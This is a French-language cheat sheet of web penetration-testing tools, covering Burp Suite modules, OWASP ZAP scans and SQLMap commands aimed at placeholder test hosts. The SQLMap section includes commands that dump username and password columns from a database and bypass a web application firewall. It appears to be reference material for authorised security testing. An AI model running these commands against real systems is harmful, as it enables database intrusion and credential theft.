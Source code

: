 ## 🔧 Outils d'Exploitation Web

### **Burp Suite Professional**

#### **Configuration et utilisation**
```bash
# Proxy Setup
1. Configurer navigateur proxy 127.0.0.1:8080
2. Installer certificat Burp
3. Activer interception

# Modules principaux :
• Target - Cartographie de l'app
• Proxy - Interception des requêtes
• Intruder - Attaques automatisées
• Repeater - Tests manuels
• Scanner - Détection automatique (Pro)
• Sequencer - Analyse de tokens
• Decoder - Encodage/décodage
• Comparer - Comparaison de réponses
```

### **OWASP ZAP**
```bash
# Installation
apt install zaproxy

# Lancement
zaproxy

# Scan automatisé
zap-cli quick-scan --self-contained http://app-test.exemple.local/

# API
curl "http://127.0.0.1:8080/JSON/spider/action/scan/?url=http://app-test.exemple.local/"
```

### **SQLMap**
```bash
# Tests SQLi automatiques
sqlmap -u "http://app-test.exemple.local/login.php?id=1" --dbs
sqlmap -u "http://app-test.exemple.local/login.php?id=1" -D database_name --tables
sqlmap -u "http://app-test.exemple.local/login.php?id=1" -D database_name -T users --columns
sqlmap -u "http://app-test.exemple.local/login.php?id=1" -D database_name -T users -C username,password --dump

# POST request
sqlmap -u "http://app-test.exemple.local/login.php" --data="username=admin&password=test" -p username

# Bypass WAF
sqlmap -u "http://app-test.exemple.local/login.php?id=1" --tamper=space2comment,charencode
```
